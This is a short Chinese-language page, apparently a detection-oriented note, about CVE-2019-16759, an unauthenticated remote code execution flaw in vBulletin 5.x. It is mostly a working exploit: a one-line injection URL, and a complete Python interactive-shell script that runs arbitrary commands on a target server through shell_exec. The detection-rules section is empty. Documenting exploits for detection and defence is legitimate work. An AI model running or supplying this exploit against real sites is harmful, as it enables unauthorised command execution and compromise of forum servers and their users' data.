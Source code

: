 <https://github.com/jas502n/CVE-2019-16759>

### 检测日志

访问日志 OR HTTP.log

### 测试复现

POC1

```yml
http://IP/?routestring=ajax%2Frender%2Fwidget_php&widgetConfig[code]=phpinfo();exit;
```

POC2:CVE-2019-16759 vBulletin 5.x 未授权远程代码执行漏洞

```python
import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"');echo md5('vBulletin'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200 or r.status_code ==403 and 'be4ea51d962be8308a0099ae1eb3ec63' in r.text:
               print
               print r.text.split('be4ea51d962be8308a0099ae1eb3ec63')[0]
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))

```

### 测试留痕

暂无，但可查看攻击报文样例辅助安全人员研判是否为攻击行为，较简单的场景。

<https://github.com/jas502n/CVE-2019-16759>

### 检测规则/思路
